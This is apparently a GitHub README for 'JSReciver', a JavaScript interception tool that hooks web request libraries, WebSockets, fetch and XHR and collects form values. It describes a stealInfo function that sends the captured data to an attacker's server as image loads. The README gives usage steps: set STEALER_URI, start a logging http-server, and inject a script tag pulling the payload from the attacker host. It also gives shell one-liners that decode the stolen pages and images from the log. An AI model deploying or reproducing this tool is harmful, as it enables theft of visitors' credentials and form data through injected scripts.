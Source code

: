 # JSReciver

### JSReciver v0.0 - @j0moz4 

This JavaScript script intercepts various types of HTTP requests made by different libraries and frameworks, such as:

 - Axios
 - Angular HttpClient
 - jQuery Ajax
 - Superagent
 - Request
 - Got
 - Fetch Mock
 - Vue Resource. 
 
It replaces the original functions used for making requests with modified versions that log information about the requests. The intercepted requests are logged by printing their details, such as the request URL, method, headers, and data, to the console. Additionally, the script includes a function called stealInfo that exfiltrates the intercepted request information to a specified URL. It does so by encoding the request data and sending it as a series of images loaded from the exfiltration URL.
The script also intercepts other web-related operations, such as: 

 - WebSocket connections
 - Beacon requests
 - XMLHttpRequests
 - Fetch API requests. 

It logs information about these operations and exfiltrates them in a similar manner as the intercepted HTTP requests. 
Furthermore, the script scans the webpage for elements with src or href attributes and logs and exfiltrates their values. It also collects data from HTML forms present on the page, including form actions, methods, and input field values. The form data is then logged and exfiltrated as well.
Overall, this script acts as a data interception and exfiltration tool, capturing and potentially sending sensitive information from various web requests and webpage elements to a specified exfiltration URL.

### CREATE WEB SERVER

```Edit the var "let STEALER_URI = '';" to your exfiltrationi server URI.```

#### Prepare server:
[https://www.npmjs.com/package/http-server](https://www.npmjs.com/package/http-server)

```sudo http-server --port 8080 -a 0.0.0.0 -d -i --cors > exfiLeaks.log```

#### Inject: ```<script src="http://STEALER_URI:8080/reciver.js"></script>```

### JSREVICER ONELINERS:

#### Detect webpages hash:
```cat exfiLeaks.log | grep "/0/PCFET0NUWVBFIGh0bWw" | awk -F'/' '{print $3}' | awk '!seen[$1]++'```
#### Web pages:
```cat exfiLeaks.log | grep "/exfil/<hash>/" | cut -d"/" -f4- |  awk '!seen[$1]++' | awk -F'.jpg' '{print $1}' | cut -d"/" -f2- | tr -d '\n' | base64 -d```

#### Detect images hash
```cat exfiLeaks.log | grep "/0/iVBORw0KGg" | awk -F'/' '{print $3}' | awk '!seen[$1]++'```
#### Images: 
```cat exfiLeaks.log | awk -F'/exfil/<hash>/' '{print $2}' | cut -d"/" -f2- | awk -F'.jpg' '{print $1}' | awk '!seen[$0]++' | tr -d '\n' | base64 -d > tal.png```

______________________________________________________________________________________________________________________________________________

## POC

##### Start server
![image alt](https://i.imgur.com/EbKGAvu.png "0")

##### Request recived
![image alt](https://i.imgur.com/l7lSTnP.png "1")

##### Extract content 
![image alt](https://i.imgur.com/QlSzAlB.png "2")


**Thnx to:** [https://github.com/hoodoer/XSS-Data-Exfil](https://github.com/hoodoer/XSS-Data-Exfil)

